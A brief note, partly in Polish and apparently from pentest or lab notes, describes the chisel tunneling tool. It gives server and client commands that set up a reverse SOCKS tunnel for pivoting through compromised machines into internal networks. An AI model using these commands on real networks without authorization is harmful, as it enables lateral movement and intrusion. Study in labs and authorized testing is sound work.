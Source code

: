 # chisel

* fast TCP/UDP tunnel over HTTP written in go

program który ściągamy z githuba w postaci binarki do poruszania się po przejętych maszynach np do intranetu

użycie:

```bash

./chisel server -p 8001 --reverse
./chisel client 10.10.10.1:8001 R:socks

```
